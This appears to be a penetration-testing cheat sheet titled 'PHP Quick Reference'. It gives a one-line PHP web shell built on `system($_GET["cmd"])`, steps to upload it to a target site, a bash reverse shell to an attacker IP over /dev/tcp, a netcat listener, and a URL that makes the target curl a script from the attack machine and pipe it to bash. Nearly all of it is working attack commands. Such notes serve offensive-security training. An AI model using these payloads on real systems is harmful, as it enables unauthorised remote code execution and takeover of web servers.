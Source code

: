 # PHP Quick Reference

## Resources
- [PentestMonkey Reverse PHP Shell](https://github.com/pentestmonkey/php-reverse-shell)

## Contents
- [One-Liner: `system()` Function](#one-liner-system-function)
  - [Syntax](#syntax)
  - [Use as a Test](#use-as-a-test)
  - [Reverse Shell](#reverse-shell)
    - [Linux Payload](#linux-payload)
    - [Start a Listener](#start-a-listener)
    - [Spin Up a Local Web Server](#spin-up-a-local-web-server)
    - [Build a URL with curl to Execute](#build-a-url-with-curl-to-execute)

## One-Liner: system() Function
- This is a [PHP function](https://www.php.net/manual/en/function.system.php) that is used to execute a command.
- It uses the PHP `system()` function to execute commands that are being passed through `cmd` HTTP request `GET` parameter.
- The `cmd` is a parameter. You pass the argument to that parameter via the URL (see below).
- Reference: [An Introduction to Web Shells](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)

### Syntax
- This is the PHP web shell in its most simple form: 
```
<?php system($_GET["cmd"]); ?>
```

### Use as a Test
- Create a PHP file and upload it to a target site that's running PHP:
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
- Build a URL to execute that script with a command (specific to the operating system o/s).
- If you get a response from the command you send to the o/s via the PHP `system()` function, you know you can execute arbitrary code on the target.
```
# for Linux:
http://[target domain]/shell.php?cmd=id

# for Windows:
http://[target domain]/shell.php?cmd=dir
```

### Reverse Shell

#### Linux Payload
- Create a shell script file containing a [Bash one-liner](bash.md) for a reverse shell.
- Use vim or some other editor and create `shell.sh` containing the following: 
```
#!/bin/bash
bash -i &> /dev/tcp/[attack ip]/[port] 0>&1
```

#### Start a Listener
- On your attack machine, spin up a listener:
```
nc -nvlp 1234
```

#### Spin Up a Local Web Server
- Start a simple Python web server on your local attack machine to serve up the bash file.
- This command must be run from the subdir that contains `shell.sh`.
```
python3 -m http.server 8000
```

#### Build a URL with curl to Execute
- We combine the PHP one-liner with a curl command to fetch `shell.sh`, and then we pipe it to Bash in order to execute it.
```
http://[target domain]/shell.php?cmd=curl%20[local attack ip]:8000/shell.sh|bash
```











